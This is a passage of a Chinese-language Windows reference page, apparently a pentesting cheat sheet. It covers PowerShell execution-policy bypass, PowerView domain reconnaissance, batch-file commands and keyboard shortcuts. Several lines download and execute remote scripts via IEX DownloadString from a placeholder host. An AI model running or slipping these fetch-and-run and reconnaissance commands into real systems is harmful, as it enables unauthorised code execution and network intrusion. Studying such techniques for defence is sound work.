 ```
<pre class="md-fences md-end-block ty-contain-cm modeLoaded" lang="" style="box-sizing: border-box; overflow: visible; font-family: var(--monospace); font-size: 0.9em; break-inside: avoid; white-space: normal; background-image: inherit; background-position: inherit; background-size: inherit; background-repeat: inherit; background-attachment: inherit; background-origin: inherit; background-clip: inherit; border-color: #e7eaed; border-radius: 3px; padding: 8px 4px 6px; margin-bottom: 15px; margin-top: 15px; width: inherit; position: relative !important;" spellcheck="false">powershell -exec bypass Import-Module .\powerview.ps1;Get-NetDomain  </pre>
[![](https://p1.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p1.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p1.ssl.qhimg.com/t018593559c28a6fb6e.png)](https://p1.ssl.qhimg.com/t018593559c28a6fb6e.png)
<h3 name="h3-11" id="h3-11">远程下载并执行PowerShell脚本</h3>
远程下载并执行test.ps1脚本、远程下载PowerView.ps1脚本，并执行其中的Get-Netdomain模块
<pre class="pure-highlightjs"><code class="hljs javascript">powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/test.ps1')
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain
```

### 远程下载并执行PowerShell脚本

[![](https://p4.ssl.qhimg.com/t01009dc2487184e3dc.png)](https://p4.ssl.qhimg.com/t01009dc2487184e3dc.png)



## Windows中的批处理文件

```
@echo off           表示在此语句后所有运行的命令都不显示命令行本身
echo                 显示这行后面的文字
title               标题 
rem                 注释命令
cls                 清楚窗口
set /a               赋值
set /p  name=       接受用户输入,保存在name中
%name%               输出用户的输入
if   else           判断
FOR /F %%i in (ip.txt) do echo %%i       #循环打印出ip.txt内的数据，同一个窗口
FOR /F %%i in (ip.txt) do start echo %%i       #循环打印出ip.txt内的数据，不同窗口
GEQ                 大于等于
LSS                 小于
goto   :1 :2         跳转到
exit                 退出程序
start               启动文件
call                 调用另一个批处理文件
dir c:\*.*&gt;a.txt     将C盘文件列表写入a.txt
del                 删除一个或多个文件
```

## Windows中快捷键操作

```
Alt+Tab               快速切换程序
Alt+F4               快速关闭程序
Alt                   矩形选择
Alt+双击文件           查看文件属性
Shift+delete         永久删除文件
Ctrl+。               中英文标点切换
Ctrl+S               保存
Ctrl+N               新建
Ctrl+W               关闭程序
Ctrl+U               加下划线
Ctrl+Z               撤销操作
Ctrl+B               粗体
```